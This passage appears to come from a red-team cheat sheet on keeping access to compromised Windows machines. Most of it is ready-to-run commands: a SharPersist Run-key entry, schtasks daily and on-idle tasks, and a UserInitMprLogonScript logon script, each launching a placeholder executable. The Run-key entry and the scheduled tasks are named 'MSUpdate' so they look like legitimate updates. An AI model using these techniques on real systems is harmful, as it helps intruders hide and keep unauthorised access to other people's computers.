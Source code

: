 #### Launch programs or set folder items
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders     
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders     
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

#### SharpPersist
- ```-k``` is the registry key to modify.
- ```-v``` is the name of the registry key to create.
```
SharPersist.exe -t reg -c "<PATH TO EXE>" -a "/q /n" -k "hkcurun" -v "MSUpdate" -m add
```

### Scheduled task
#### Create, Query and run task
```
schtasks /create /tn "MSUpdate" /sc daily /st 10:00 /tr "<PATH TO EXE>"
schtasks /query /tn "MSUpdate" /fo:list /v
schtasks /run /tn "MSUpdate"
```

#### Create task the user session is idle for 10 minutes
```
schtasks /create /tn "MSUpdate" /tr "<PATH TO EXE>" /sc onidle /i 10
schtasks /query /tn "MSUpdate" /fo:list /v
schtasks /run /tn "MSUpdate"
```

### Logon Scripts
- Script will run on logon of a user. Might not run instantly because of logon script startup delay.

#### Query and set reg key
```
reg query "HKEY_CURRENT_USER\Environment"

reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "<PATH TO BAT FILE>" /t REG_SZ /f
```

- Bath file
```
@ECHO OFF

<PATH TO EXE>
```
- Cleanup `reg delete "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript`

### Shortcut modifications
- Modify shortcuts from programs that are frequently used.
